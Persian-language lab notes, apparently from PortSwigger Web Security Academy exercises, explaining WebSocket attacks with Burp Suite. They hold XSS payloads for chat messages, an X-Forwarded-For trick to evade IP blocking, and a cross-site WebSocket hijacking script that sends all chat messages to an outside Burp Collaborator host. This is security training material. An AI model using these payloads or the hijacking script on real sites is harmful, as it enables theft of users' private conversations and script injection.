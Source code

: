 # Web Socket

## Concept
- برخی ترافیک ها (مانند Chat های وبسایت ها) از جنس WebSocket می باشند، که ترافیک آن های از بخش Proxy > WebSockets history قابل مشاهده است.

## Exploit
- **دستکاری message**
  - با ارسال پیام در بخش چت وبسایت، مشاهده می شود که ترافیک URL-Encode می گردد
  - باید ترافیک را intercept کرده و payload را در Burp وارد کنیم
  - برای حمله XSS از payload زیر استفاده می کنیم:
```HTML
<img src=1 onerror='alert(1)'>
```

- **دستکاری handshake**
  - به بخش WebSoket history رفته و پیام ارسال شده را به Repeater ارسال می کنیم.
  - با تزریق اسکریپت XSS، اگر محافظتی روی ورودی باشد، ممکن است که IP ما بلاک شود. برای بای پاس کردن، هدر ```X-Forwarded-For: 1.1.1.1``` را به درخواست اضافه می کنیم.
  - در همان صفحه بر روی *Connect* کلیک می کنیم تا مجددا ارتباط WebSocket برقرار گردد.
  - از payload زیر برای حمله XSS استفاده می کنیم:
```HTML
<img src=1 oNeRrOr=alert`1`>
```

- **حمله Cross-site**
  - با هر بار referesh شدن صفحه chat یک پیام Ready ارسال شده و سپس کل چت ها در یافت می شو
  - اسکریپت زیر را در سرور exploit بارگذاری کرده و Burp Collaborator را فعال می کنیم
  - با اجرای exploit و سپس کلیک بر روی pull now در Burp Collaborator می توانیم متن چت ها را در بخش Request هر درخواست مشاهده کنیم
```Javascript
<script>
  var ws = new WebSocket('wss://ac6a1fe71f20cbd5c0f34cee007e00d1.web-security-academy.net/chat');
  ws.onopen = function() {
    ws.send("READY");
  };
  ws.onmessage = function(event) {
    fetch('https://3imb5t376kouqoqgmnifykmwcnid62.burpcollaborator.net/?', {method: 'POST', mode: 'no-cors', body: event.data});
  };
</script> 
```
